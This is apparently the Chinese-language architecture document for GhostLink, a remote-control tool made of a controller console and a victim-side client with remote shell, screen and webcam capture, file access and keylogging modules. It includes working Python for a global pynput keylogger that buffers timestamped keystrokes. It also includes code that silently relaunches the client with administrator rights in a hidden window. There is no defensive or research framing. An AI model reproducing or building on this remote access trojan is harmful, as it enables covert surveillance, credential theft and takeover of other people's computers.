



# 架构说明

本文档介绍 GhostLink 的代码架构、线程模型和设计决策。

---

## 总体架构



---

## 控制端架构 (`后台.py`)

### 线程模型

| 线程 | 角色 | 生命周期 |
| --- | --- | --- |
| 主线程 | 运行 `admin_console()` 交互菜单 | 全程运行 |
| Accept 守护线程 | 循环调用 `accept()` 接收新连接 | daemon=True，主线程退出时结束 |

### 数据结构

```python
# 全局客户端列表（线程安全）
client_list = []        # 元素: (socket, (ip, port))
list_lock = Lock()      # 保护 client_list 的读写
```

### 关键函数

```text
admin_console()
├── list          → 遍历 client_list
├── shell <n>     → handle_shell(client, addr)
├── screen <n>    → handle_screen(client, addr)
├── camera <n>    → handle_camera(client, addr)
├── file <n>      → handle_file(client, addr)
├── keylog <n>    → handle_keylog(client, addr)
└── quit          → break 主循环
```

### 工具函数

```python
def recv_exact(sock, length) -> bytes:
    """精确接收 length 字节，TCP 粘包处理"""
    data = b''
    while len(data) < length:
        chunk = sock.recv(length - len(data))
        if not chunk:
            raise ConnectionError("客户端断开连接")
        data += chunk
    return data
```

所有需要精确长度接收的场景都使用 `recv_exact()`，这是协议可靠性的基础。

---

## 被控端架构 (`客户端.py`)

### 启动流程



### 线程模型

| 线程 | 角色 | 说明 |
| --- | --- | --- |
| 主线程 | TCP 连接与命令处理循环 | 核心逻辑 |
| Keylogger 守护线程 | `pynput.keyboard.Listener` | 全局键盘钩子 |
| Datetime 守护线程 | `background_worker_datetime()` | 每分钟触发（预留扩展） |

### 后台线程生命周期

```python
# 客户端.py 关键代码
threading.Thread(target=background_worker_keylog, daemon=True).start()
threading.Thread(target=background_worker_datetime, daemon=True).start()
```

两个后台线程均为 `daemon=True`，主线程退出时自动终止。

### Keylogger 线程

```python
keylog_buffer = []          # 模块级共享缓冲区
keylog_lock = Lock()        # 线程安全锁

def background_worker_keylog():
    def on_press(key):
        now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        try:
            char = key.char
        except AttributeError:
            char = f'[{key.name}]'
        with keylog_lock:
            keylog_buffer.append(f"{now}: {char}")

    with pynput.keyboard.Listener(on_press=on_press) as listener:
        listener.join()     # 阻塞直到 listener 停止
```

---

## 权限提升机制

客户端启动时自动检测并请求管理员权限：

```python
def is_admin():
    return ctypes.windll.shell32.IsUserAnAdmin()

def run_as_admin():
    # 调用 ShellExecuteW 以 runas 动作重新启动自身
    ctypes.windll.shell32.ShellExecuteW(
        None, "runas", app_path, params, None, 0  # 0 = 隐藏窗口
    )
    sys.exit()

if not is_admin():
    run_as_admin()
```

| 特性 | 说明 |
| --- | --- |
| 触发时机 | 程序启动时自动检测 |
| 实现方式 | Windows `ShellExecuteW` + `runas` 动词 |
| 窗口状态 | `SW_HIDE (0)` — 静默启动不显示窗口 |
| 打包兼容 | 区分 `frozen`（exe）和开发环境（py） |

---

## 设计决策

### 为什么用 1 字节操作码？

- 最小化协议开销
- 防止与后续数据"粘包"：先收 1 字节确定模块，再进入对应的子协议循环

### 为什么用 8 位固定长度头？

- 简单可靠：不需要定界符或转义
- 8 位十进制最大支持 99,999,999 字节（约 95 MB）的数据
- `recv_exact(8)` 保证精确接收

### 为什么屏幕截图用 JPEG 而非 PNG？

- JPEG 压缩率高，适合实时传输（quality=30 时文件小、画质可接受）
- 在内存中处理，不写入磁盘

### 为什么文件列表用 pickle？

- `pickle.dumps(list)` 可以完美保留 Unicode 文件名
- 比 JSON 更原生地支持 Python 数据类型

### 为什么 Shell 输出用 GBK 编码？

- Windows 中文版的命令行输出默认编码为 GBK
- 使用 GBK 可以正确显示中文字符

---

## 依赖关系



| 模块 | 依赖 | 共享 |
| --- | --- | --- |
| Shell | `subprocess`, `os` | 客户端 |
| Screen | `PIL.ImageGrab`, `cv2`, `numpy` | 客户端 + 控制端 |
| Camera | `cv2`, `numpy` | 客户端 + 控制端 |
| File | `pywin32`, `pickle`, `hashlib`, `mimetypes`, `ctypes` | 客户端 + 控制端 |
| Keylogger | `pynput`, `threading` | 客户端 |
| File Send | `tkinter.filedialog` | 控制端 |
